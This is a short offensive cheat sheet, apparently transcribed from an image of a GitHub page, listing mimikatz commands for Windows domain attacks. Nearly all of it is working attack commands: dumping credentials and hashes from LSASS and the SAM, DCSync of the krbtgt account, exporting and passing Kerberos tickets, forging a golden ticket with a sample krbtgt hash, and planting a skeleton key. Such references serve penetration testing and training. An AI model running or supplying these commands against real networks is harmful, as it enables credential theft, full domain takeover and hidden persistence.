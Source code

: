 #### mimikatz

##### Common Commands

```c
token::elevate
token::revert
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
lsadump::dcsync /<USERNAME>:<DOMAIN>\krbtgt /domain:<DOMAIN>
```

##### Dump Hshes

```c
.\mimikatz.exe
sekurlsa::minidump /users/admin/Desktop/lsass.DMP
sekurlsa::LogonPasswords
meterpreter > getprivs
meterpreter > creds_all
meterpreter > golden_ticket_create
```

##### Pass the Ticket

```c
.\mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<RHOST>.LOCAL.kirbi
klist
dir \\<RHOST>\admin$
```

##### Forging Golden Ticket

```c
.\mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
misc::cmd
klist
dir \\<RHOST>\admin$
```

##### Skeleton Key

```c
privilege::debug
misc::skeleton
net use C:\\<RHOST>\admin$ /user:Administrator mimikatz
dir \\<RHOST>\c$ /user:<USERNAME> mimikatz
```
